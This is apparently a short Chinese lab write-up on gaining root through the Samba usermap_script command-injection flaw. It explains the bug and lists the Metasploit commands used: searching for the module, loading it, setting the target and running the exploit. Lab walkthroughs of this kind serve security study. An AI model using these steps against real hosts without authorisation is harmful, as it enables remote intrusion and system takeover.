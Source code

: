 ```yaml
---
title: samba提权
date: 2021-12-20 17:46:48
tags: 
    - samba
    - 提权
---
```


## samba提权

### 利用samba漏洞，获得目标主机root权限

#### 原理:Samba中负责在SAM数据库更新用户口令的代码未经过滤便将用户输入传输给了/bin/sh。如果在调用smb.conf中定义的外部脚本时，通过对/bin/sh的MS-RPC调用提交了恶意输入的话，就可能允许攻击者以nobody用户的权限执行任意命令。

#### 过程：

确定目标存在`445`和`139`端口开放，使用msf，输入命令`search samba`

![image-20211220184011444](http://121.5.125.62:88/image/samba提权/image-20211220184011444.png)

使用命令`use exploit/multi/samba/usermap_script`，启用漏洞利用模块，终端输入`info`，查看相关信息

![image-20211220184341512](http://121.5.125.62:88/image/samba提权/image-20211220184341512.png)

输入`set RHOST ip`,设置目标ip地址，输入`exploit`，开始攻击，攻击成功后，建立会话

![image-20211220190130652](http://121.5.125.62:88/image/samba提权/image-20211220190130652.png)

输入`whoami`查看权限，输入`ifconfig`，查看系统网络信息

![image-20211220190258566](http://121.5.125.62:88/image/samba提权/image-20211220190258566.png)

实验完成

